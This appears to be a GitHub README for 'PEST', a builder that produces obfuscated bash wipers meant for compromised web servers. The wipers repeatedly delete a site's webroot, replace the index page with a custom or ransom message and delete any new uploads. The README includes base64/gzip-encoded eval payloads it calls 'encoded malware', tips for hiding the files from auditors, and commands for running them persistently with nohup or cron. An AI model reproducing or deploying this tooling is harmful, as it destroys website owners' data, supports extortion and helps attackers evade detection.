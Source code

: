 # PEST

This is for **educational purposes** only. I bear no responsibility for what you use this for. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

This is a fire and forget way to keep a webmaster confused.

Using the build tool, you can generate three different types of bash files that will perform differently.

- Loop wiper : Will consistently wipe the webroot and replace the index.php/index.html with a custom message. Runs in an infinite loop.

- Cron wiper : Same as the **loop**, but runs only once as it is intended to be added as a cron job.

# How it works

A webmaster might get a message on the web root in an `index.php` file. No matter what he/she does, They cannot get rid of that file. It comes back after being deleted and no other file can be uploaded. Any uploaded file gets deleted immediately.

# Usage

To build the final product you need the following

- The webroot path
- A custom message (A ransom message maybe)
- Sleep time in seconds (This will be ignored for cron wiper). This serves as a delay between each run.

Then you get a copy of **pest-builder** either by cloning this repo or just copying and pasting the code.

Make it executable by running

```bash
chmod +x pest-builder
```

To build a **loop wiper**, run:

```bash
./pest-builder loop "/home/user/public_html" "Hacked" 120
```

A file named **".loop_wiper"** will be created. It's contents will look like this

```bash
#!/usr/bin/env bash
eval "$(echo -n 'H4sIAAAAAAAAA5VRXUvDMBR9v7/iLoSxCbPW11JhYlDB2rEO9jBGqckdLaZp7QcK4n832NWtQh/MQ0g45x7OORcUSZ1UhIsKt+J2HYYbnzlpkZPT1lQ5ZfuiMxmnTa6ZB3DGXi+fozCIAxFFy3vhs4dEvpL6Q4qehFjFm8dA+O71lcXg0BrZZIVBqdVsjp+A9uxwggtCxl2Ge5xOsaKmrYx3AtUoOJjbDZmy+/RUxlfbO4YTf1SM8ZmukbvzHs3xwuY4jOLdNMLXWbJENr/JbErkx2I7EZJpgXzYHt6wnuRkRtHHZZmW7D/844KsDYD3NNNkzbq2mzd77z1UBfyIWWte96o1UYn8tCAPVGEIvgGdBZGrEQIAAA==' | base64 -d | gunzip -c)";
```


To build a **cron wiper**, run:

```bash
./pest-builder cron "/home/user/public_html" "Hacked" 120
```

A file named **".cron_wiper"** will be created. It's contents will look like something similar to this  

```bash
#!/usr/bin/env bash
eval "$(echo -n 'H4sIAAAAAAAAA5WRXUvDMBSG7/Mr3h3C2IRZ6+2oMDGoYO1YB7sYUmqS0WL6QdaCIP53A13nKvTC3IXnOSfnPWFKS5NajYXFTtxvomgbkJdVhfbao7Ze3b6bXCZZUxhaMnZhb1avcRQmoYjj1aMI6CmVH1r9keIXIdbJ9jkUgX974xg7tKVs8qqENGo2xxeDO3tMsNAg7hPeMJ3C6qa15fIXqlE4qNsPTdldepX4evdAmASjzYjPzBHcn/e0wJXLcRjlXTXY90WyVDbnZC4l+GmxXRMtswp8uD3cUS95ean053Wd1fQf//RBbgzmnmc/RcAVN9cBAAA=' | base64 -d | gunzip -c)";
```

Yes. It's an encoded malware.

## Obfuscation
It is important you obfuscate these files by changing the file names, making them dot files and adding useless comments at the top of the file to distract during manual audit.

Also note that the cron wiper is discouraged as it raises attention and is quick to spot.

## Using the generated files
To run the loop_wiper, upload the file to the target server and make it executable by running  

```bash
chmod +x .loop_wiper
```

then run the following command on the target server

```bash
nohup ./.loop_wiper & disown
```

To run the .cron_wiper, **add it the the list of cron jobs**. Using the cpanel or **crontab** command.


If you find this page confusing, or you have no idea what's going on, maybe you should not be here at all. Go build a cute website or an app.


Stay Dangerous.
